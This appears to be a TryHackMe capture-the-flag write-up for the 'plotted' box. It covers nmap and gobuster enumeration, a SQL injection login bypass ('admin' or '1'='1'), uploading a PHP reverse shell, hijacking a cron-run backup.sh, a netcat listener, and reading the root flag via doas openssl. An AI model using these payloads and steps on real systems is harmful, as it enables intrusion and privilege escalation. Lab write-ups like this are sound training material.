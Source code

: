 ```yaml
---
title: TryHackMe - plotted
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, http, ssh, linpeas]
image:
    path: /assets/img/try_hack_me/Easy/plotted/0.jpeg
    alt: plotted
---
```

This is a simple box with a straight forward `SQLi` vulnerability, which can be exploited to upload a `php-reverse shell`, and then use the `cronjob` script which is running every minute to escalate privileges.

# nmap

# Command
```sh
nmap -sV -sC -v 10.10.113.22
```

# Result
```sh
Scanning 10.10.113.22 [1000 ports]
Discovered open port 445/tcp on 10.10.113.22
Discovered open port 80/tcp on 10.10.113.22
Discovered open port 22/tcp on 10.10.113.22
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
| 256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_ 256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

# 80-http

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



## gobuster 

## Command
```sh
gobuster dir -u http://10.10.113.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```sh
Starting gobuster in directory enumeration mode
===============================================================
/admin
(Status: 301) [Size: 312] [--> http://10.10.113.22/admin/]
/shadow
(Status: 200) [Size: 25]
/passwd
(Status: 200) [Size: 25]
```

## View_web
![](../assets/img/try_hack_me/Easy/plotted/1.png)

Nothing much

**visit directories from gobuster scan**


/admin
-------------------

![](../assets/img/try_hack_me/Easy/plotted/2.png)  
id_rsa =`VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE`  
![](../assets/img/try_hack_me/Easy/plotted/3.png)  

Decode the base64 using cyberchef = “Trust me it is not this easy..now get back to enumeration :D”  


/shadow
------------------------------------------
we get this text = `bm90IHRoaXMgZWFzeSA6RA==`  
First we identify it using Cipheridentifier  
Then use Cyberchef to decode it = “not this easy :D ”


/passwd
------------------------------------------
We get the same text = `bm90IHRoaXMgZWFzeSA6RA==`


# 445-tcp

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



## gobuster

```sh
gobuster dir -u http://10.10.113.22:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#Results
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/management
(Status: 301) [Size: 322] [--> http://10.10.113.22:445/management/]
```

##  View_web
`http://10.10.113.22:445/management/`
![](../assets/img/try_hack_me/Easy/plotted/4.png)

management/admin/login.php
---------------------------------------------------------------
Tried  sql injection and i worked with the first trial :)  

![](../assets/img/try_hack_me/Easy/plotted/5.png)  
`It's actually “ admin' or '1'='1  `  

Now i searched for a place to upload my reverse shell script.  
Found in admin user settings allows one to upload a file and that's my way in.I hope so.  
Using the php reverse shell script i got a shell.  


Stabilising shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

$ ls -l
total 8
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 2021 tms_backup
-rw-rw---- 1 plot_admin plot_admin 33 Oct 28 2021 user.txt
```
found the user flag but lack the permisions to view it.  
Checking the /etc/crontab.  
I found a backup.sh file that is running after some time .  

At this point was stuck.
But the file is under our control thus i can edit it .  

Generated a bash reverse shell using an online reverse shell generator.  
Then preserved the contents of the origin backup.sh into another file.  
Created one of my own and gave it executable permissions.  
![](../assets/img/try_hack_me/Easy/plotted/6.png)

Encounted some issues but later on used my machine to create the file and give it executable permissions.  
Then used python server and wget to load it on to the machine.  

After this we run nc to listen on the port
```sh
nc -lvnp 5555
```
![](../assets/img/try_hack_me/Easy/plotted/7.png)


# privilege 2
I downloaded linpeas in my machine then used python3 -m http.server.  
Used wget to load the file into the attack machine.  
```sh
chmod +x linpeas
To run use = ./linpeas
```

![](../assets/img/try_hack_me/Easy/plotted/8.png)

```sh
cat /etc/doas.conf
doas openssl enc -in /root/root.txt

```
![](../assets/img/try_hack_me/Easy/plotted/9.png)
